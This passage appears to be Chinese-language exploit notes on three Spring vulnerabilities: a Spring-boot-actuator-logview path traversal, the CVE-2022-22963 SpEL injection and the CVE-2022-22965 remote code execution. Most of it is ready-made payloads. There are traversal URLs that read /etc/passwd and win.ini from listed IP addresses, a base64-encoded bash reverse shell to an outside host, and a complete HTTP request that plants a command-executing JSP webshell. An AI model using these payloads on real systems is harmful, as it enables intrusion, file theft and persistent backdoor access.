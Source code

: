 Spring-boot-actuator-logview 0.2.13之前版本存在路径遍历漏洞，攻击者可通过该缺陷读取系统任意文件。参考：

https://blog.csdn.net/weixin_43165012/article/details/121152482

```
http://47.98.193.176:8908/manage/log/view?filename=etc/passwd&base=../../../../../../

http://127.0.0.1:8887/manage/log/view?filename=/windows/win.ini&base=../../../../../../../
```

2、Spring Cloud Function Spel表达式注入 CVE-2022-22963

Spring Cloud Function提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像Amazon AWS Lambda这样的 FaaS（函数即服务，function as a service）平台。

3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

参考：https://developer.aliyun.com/article/1160011

```
POST：/functionRouter

spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3LzU1NjYgMD4mMQ==}|{base64,-d}|{bash,-i}")
```


3、Spring Framework远程代码执行漏洞 CVE-2022-22965

Spring Framework是一个开源应用框架，初衷是为了降低应用程序开发的复杂度，具有分层体系结构，允许用户选择组件，同时还为J2EE应用程序开发提供了一个好用的框架。

Spring Framework < 5.3.18

Spring Framework < 5.2.20

Spring Framework 的衍生框架构建的网站或应用

参考：https://www.csdn.net/article/2022-11-24/128026635

-写后门tomcatwar.jsp
```
POST / HTTP/1.1
Host: 124.71.115.19:50531
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 762

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
-访问jsp触发后门
